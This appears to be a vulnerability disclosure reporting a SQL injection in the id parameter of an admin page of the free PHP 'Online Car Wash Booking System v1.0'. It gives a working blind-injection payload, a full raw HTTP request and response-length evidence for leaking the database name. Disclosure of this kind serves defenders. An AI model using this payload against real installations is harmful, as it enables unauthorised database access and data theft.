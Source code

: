 # Online Car Wash Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15274/online-car-wash-booking-system-phpoop-free-source-code.html

Vulnerability File: /ocwbs/admin/services/view_service.php?id=

Vulnerability location: /ocwbs/admin/services/view_service.php?id=, id

Current database name: ocwbs_db,length is 8

[+] Payload: /ocwbs/admin/services/view_service.php?id=2%27%20and%20length(database())%20=8--+ // Leak place ---> id

```sql
GET /ocwbs/admin/services/view_service.php?id=2%27%20and%20length(database())%20=8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qr1o26kvu55cqqitadqht6jna5
Connection: close
```

When length (database ()) = 7, Content-Length: 856
![image](https://user-images.githubusercontent.com/54017627/169303030-f356f38b-36b5-448d-b1ce-4fa6bf45be8e.png)

![image](https://user-images.githubusercontent.com/54017627/169302761-fd52c379-0593-4ab7-8353-7c1c5d357755.png)

When length (database ()) = 8, Content-Length: 932
![image](https://user-images.githubusercontent.com/54017627/169303056-34d983d1-7631-433f-ab04-b5b13856eee2.png)

![image](https://user-images.githubusercontent.com/54017627/169302705-0dc67e32-11f6-4e4d-81e8-517eeaf725d4.png)
